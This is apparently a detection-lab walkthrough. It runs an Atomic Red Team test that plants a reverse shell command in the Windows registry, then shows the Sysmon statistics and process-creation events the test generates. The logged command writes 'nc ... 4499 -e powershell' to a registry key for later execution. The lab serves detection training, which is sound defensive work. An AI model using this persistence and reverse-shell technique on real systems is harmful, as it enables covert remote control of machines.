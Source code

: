 ### Test T0003-4: **Planting reverse shell command in the registry**

This test simulates adversaries modifying the registry to hide configuration information, for persistence, or as a way to store a command for execution. Technique reference [T1112](https://attack.mitre.org/techniques/T1112/) 

```powershell
PS C:\Users\Administrator> Invoke-AtomicTest T0003-4 -ShowDetails
PathToAtomicsFolder = C:\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: TEST T0003
Atomic Test Name: TASK-3.4 Planting reverse shell command in the registry
Atomic Test Number: 4
Atomic Test GUID: d6dc21af-bec9-4152-be86-326b6babd416
Description: Reverse shell hook

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
C:\AtomicRedTeam\atomics\T0003\plant.ps1

Cleanup Commands:
Command:
C:\AtomicRedTeam\atomics\T0003\plant-restore.ps1
[!!!!!!!!END TEST!!!!!!!]

```

Check Sysmon logs:

```powershell
PS C:\Users\Administrator> THM-LogStats-Sysmon

|#|#|#|#|#| SYSMON Log Statistics |#|#|#|#|#|

Count Sysmon ID Task Category
----- --------- -------------
   20         1 Process Create (rule: ProcessCreate)
    4        11 File created (rule: FileCreate)
    2        12 Registry object added or deleted (rule: RegistryEvent)
    2        13 Registry value set (rule: RegistryEvent)
    1         3 Network connection detected (rule: NetworkConnect)

```

Process Creation: 

```powershell
PS C:\Users\Administrator> sys-processCreation -FilterMessage "plant.ps1"
=== Sysmon Event ID 1: Process creation ===

UtcTime           : 2025-08-26 09:14:59.080
Image             : C:\Windows\System32\reg.exe
ProcessId         : 580
CommandLine       : "C:\Windows\system32\reg.exe" add HKLM\SOFTWARE\RevC2 /v call_back /t REG_SZ /d "nc 10.10.thm.jhn
                    4499 -e powershell" /f
ParentProcessId   : 952
ParentCommandLine : "powershell.exe" & {C:\AtomicRedTeam\atomics\T0003\plant.ps1}

UtcTime           : 2025-08-26 09:14:56.693
Image             : C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe
ProcessId         : 4792
CommandLine       : "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe" /noconfig /fullpaths
```